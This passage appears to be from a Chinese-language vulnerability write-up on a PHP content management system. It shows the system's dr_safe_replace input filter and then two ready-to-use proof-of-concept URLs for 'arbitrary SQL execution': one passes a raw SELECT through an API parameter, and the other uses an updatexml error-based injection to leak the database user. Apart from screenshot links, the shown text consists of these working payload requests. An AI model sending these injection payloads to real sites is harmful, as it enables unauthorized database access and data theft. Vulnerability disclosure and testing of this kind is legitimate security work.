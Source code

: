 dr_safe_replace()

```
function dr_safe_replace($string) {
    $string = str_replace('%20', '', $string);
    $string = str_replace('%27', '', $string);
    $string = str_replace('%2527', '', $string);
    $string = str_replace('*', '', $string);
    $string = str_replace('"', '&quot;', $string);
    $string = str_replace("'", '', $string);
    $string = str_replace('"', '', $string);
    $string = str_replace(';', '', $string);
    $string = str_replace('<', '&lt;', $string);
    $string = str_replace('>', '&gt;', $string);
    $string = str_replace("{", '', $string);
    $string = str_replace('}', '', $string);
    return $string;
} 
```

### 3、任意 sql 语句执行 1

```
http://0-sec.org/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=sql%20sql=%27select%20version();%27 
```

![image](img/be7fc91a2f8721b486ed2d9aec563b60.png)

### 4、任意 sql 语句执行 2

```
http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a 
```

![image](img/a6b66622e8ecb1655dfba0fce2cb7805.png)

